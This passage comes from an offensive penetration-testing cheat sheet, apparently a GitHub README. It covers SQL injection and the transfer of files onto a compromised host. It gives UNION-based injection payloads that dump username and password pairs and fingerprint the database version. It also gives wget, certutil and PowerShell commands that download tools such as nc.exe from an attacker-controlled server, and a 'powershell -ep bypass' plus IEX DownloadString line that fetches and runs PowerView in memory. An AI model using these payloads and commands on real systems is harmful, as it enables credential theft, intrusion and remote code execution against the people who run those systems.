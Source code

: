 To get multiple values in one column for specific scenarios, you can run this command:
```
' UNION SELECT username || '~' || password FROM users--

This will output the following example:
example_username~example_password
```

To check for database type and version:
```
MySQL
SELECT @@version
example:
' UNION SELECT @@version--

Oracle
SELECT * FROM v$version

PostGresQL
SELECT version() 
```


# File Transfer Methods
## Linux - wget
```
# Attacker machine
cd server/
python3 -m http.server 80

# Target machine you have shell or RCE
wget http://atacker_ip:80/name_of_file.php
```

## Windows - certutil
```
# Attacker machine
cd server/
python3 -m http.server 80

# Target machine you have shell or RCE
certutil -urlcache -f http://attacker_ip:80/name_of_file.exe
```

## Windows - powershell
```
# Attacker machine
cd server/
python3 -m http.server 80

# Target machine you have shell or RCE (various commands by line - pick what you want)
powershell wget http://attacker_ip/nc.exe -outfile nc.exe

# Run "powershell -ep bypass" first
IEX (New-Object Net.WebClient).DownloadString("http://attacker_ip/PowerView.ps1")
```
